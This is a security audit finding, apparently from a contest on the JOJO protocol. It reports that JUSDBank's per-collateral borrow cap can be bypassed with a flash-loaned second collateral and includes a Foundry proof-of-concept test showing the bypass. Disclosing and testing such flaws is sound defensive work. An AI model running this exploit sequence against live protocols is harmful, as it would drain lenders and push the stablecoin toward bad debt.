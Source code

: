 peakbolt

high

# `maxColBorrowPerAccount` borrow cap for collateral in JUSDBank can be bypassed

## Summary
The `maxColBorrowPerAccount` borrow cap for collateral can be bypassed to expose JUSD to risky collateral and increase bad debts.


## Vulnerability Detail

The `ReserveInfo.maxColBorrowPerAccount` borrow cap is used to restrict the amount of JUSD that can be borrowed  with the specified collateral per account.

The purpose is for protocol team to limit the JUSD exposure to specific collaterals and prevent accumulation of bad debts during market volatility.

The borrow cap is enforced by `JUSDView._isAccountSafeAfterBorrow()`, which ensures the user's JUSD borrow balance does not exceed `JUSDView._maxMintAmountBorrow()`.

However, the `_maxMintAmountBorrow()` calculates the max JUSD borrow amount for all collaterals owned by the users. This means that an attacker could bypass the `maxColBorrowPerAccount` for a specific collateral by using a flash loan to temporarily increase the max JUSD borrow amount using another collateral. Furthermore, the borrow cap is not checked upon withdrawals as `withdraw()` uses `_isAccountSafe()` instead.

The bypass can be performed as follows,
1. Attacker deposit Collateral A. (this can also be performed just before withdrawal)
2. Due to certain event, Protocol sets `maxColBorrowPerAccount` for collateral A to 0.
3. Attacker flash loan collateral B (with a non-zero borrow cap) and deposit into JUSD to increase his `_maxMintAmountBorrow()`.
4. Attacker proceeds to borrow JUSD.
5. Attacker withdraws Collateral B and repay flash loan.
6. Attacker now has borrowed JUSD that are backed by Collateral A, bypassing the borrow cap.

### Proof of Concept
Add the following test to `JUSDBankBorrow.t.sol`. It shows that borrow cap can be bypassed using flash loan.

```Solidity
    function testBypassMaxBorrowPeakbolt() public {

        // init balance
        mockToken1.transfer(alice, 100e18);

        // alice deposit mockToken1 before borrow cap is updated
        vm.startPrank(alice);
        mockToken1.approve(address(jusdBank), 10e18);
        jusdBank.deposit(alice, address(mockToken1), 10e18, alice);
        vm.stopPrank();

        //JOJOExchange set borrow cap for mockToken1 to zero (e.g. to reduce exposure to mockToken1)
        jusdBank.updateReserveParam(
            address(mockToken1),
            8e17,
            4000e18,
            2030e18,
            0
        );

        // borrow cap for mockToken1 is zero now
        assertEq(jusdBank.getCollateralMaxMintAmount(address(mockToken1),10e8),0);

        //simulate alice's flashloan of mockToken2
        mockToken2.transfer(alice, 100e8); 

        // deposit mockToken2
        vm.startPrank(alice);
        mockToken2.approve(address(jusdBank), 10e8);
        jusdBank.deposit(alice, address(mockToken2), 10e8, alice);

        // borrow based on mockToken2 borrow cap
        jusdBank.borrow(8e9, alice, false);
        uint256 jusdBalance = jusdBank.getBorrowBalance(alice);

        // withdraw mockToken2 and bypass borrow cap for mockToken1
        // this is incorrect as borrow cap for mockToken1 is zero.
        jusdBank.withdraw(address(mockToken2), 10e8, alice, false);

        // simiular alice repaying flashloan of mockToken2
        mockToken2.transfer(address(100), 100e8);
        vm.stopPrank();

        // alice managed to borrow 8e9 JUSD with 10e18 of mockToken1 by bypassing borrow cap
        assertEq(jusdBalance, 8e9);
        assertEq(jusd.balanceOf(alice), 8e9);
        assertEq(mockToken1.balanceOf(alice), 90e18);
        assertEq(jusdBank.getDepositBalance(address(mockToken1), alice), 10e18);
        assertEq(jusdBank.getDepositBalance(address(mockToken2), alice), 0);

    }
```

## Impact
This issue means attackers can possibly weaken the soundness of JUSD by increasing the stablecoin's exposure to a risky collateral, causing bad debts to pile up during market volatility. That will cause `JUSDBank` to be stuck with huge amount of liabilities, possibly triggering a JUSD depeg event.


## Code Snippet

https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDBank.sol#L114

https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDView.sol#LL106C1-L118C6

https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDView.sol#L159-L177

https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDView.sol#L135-L136

https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/lib/DataTypes.sol#L16


## Tool used
Manual review

## Recommendation
Check the borrow cap is not exceeded on withdrawal.


